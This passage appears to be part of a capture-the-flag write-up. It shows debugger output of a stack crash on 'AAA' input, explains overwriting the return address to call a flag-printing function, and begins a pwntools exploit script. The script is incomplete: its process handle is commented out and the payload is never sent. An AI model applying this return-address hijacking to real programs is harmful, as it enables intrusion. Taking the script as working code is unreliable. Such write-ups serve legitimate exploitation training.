 ```
$r8    : 0x0               
$r9    : 0x00000000004bc500  →  <_IO_2_1_stdin_+0000> mov BYTE PTR [rdx], ah
$r10   : 0x00000000004be091  →   add BYTE PTR [rax], al
$r11   : 0x246             
$r12   : 0x00007fffffffdde8  →  0x00007fffffffe179  →  "/home/john/Downloads/chal3"
$r13   : 0x00000000004b8de8  →  0x0000000000401930  →  <frame_dummy+0000> endbr64 
$r14   : 0x1               
$r15   : 0x1               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdbf8│+0x0000: 0x0000000000401aeb  →  <doProcess+001a> nop          ← $rsp
0x00007fffffffdc00│+0x0008: 0x00000000004b8de8  →  0x0000000000401930  →  <frame_dummy+0000> endbr64 
0x00007fffffffdc08│+0x0010: 0x00000000004c57d0  →  0x000000000a414141 ("AAA\n"?)
0x00007fffffffdc10│+0x0018: 0x00007fffffffdc20  →  0x0000000000000001    ← $rbp
0x00007fffffffdc18│+0x0020: 0x0000000000401e38  →  <main+004c> jmp 0x401e15 <main+41>
0x00007fffffffdc20│+0x0028: 0x0000000000000001
0x00007fffffffdc28│+0x0030: 0x00000000004022f4  →  <__libc_start_call_main+0064> mov edi, eax
0x00007fffffffdc30│+0x0038: 0x0000000000401100  →  <_IO_fflush.cold+0000> test DWORD PTR [rbx], 0x8000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0xa414141
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chal3", stopped 0xa414141 in ?? (), reason: SIGSEGV
```
<br>
Take note that the memory address of the next function call/return address is different than the previous attempt. Additionally, the hexadecimal '414141' corresponds 
to the ASCII 'AAA' which was the message left earlier. Meaning there is a possibility of changing the return address of the next function call.
This can be exploited by changing the address to the hahaexploitgobrrr() function which will result in the function being called and in printing the flag.
This can be done by converting the address of the hahaexploutgobrrr() into ascii/bytes and feeding it into the buffer/message. This can be done using pwntools. <br><br>

```python
    from pwn import *
    import time
    elf = ELF('./vuln')
    libc = elf.libc
    #p = process(elf.path)
    p.sendline('s')
    p.recvuntil("OOP! Memory leak...")
    leaks = p.recvline().strip().decode()
    leaks = leaks.split('\n')
    print(leaks[0])
    memory_address = int(leaks[0], 16)
    payload = p64(memory_address)
    time.sleep(1)
    p.sendline('m')
    time.sleep(1)
    p.sendline('prince')
    time.sleep(1)
    p.sendline('i')
    time.sleep(1)
```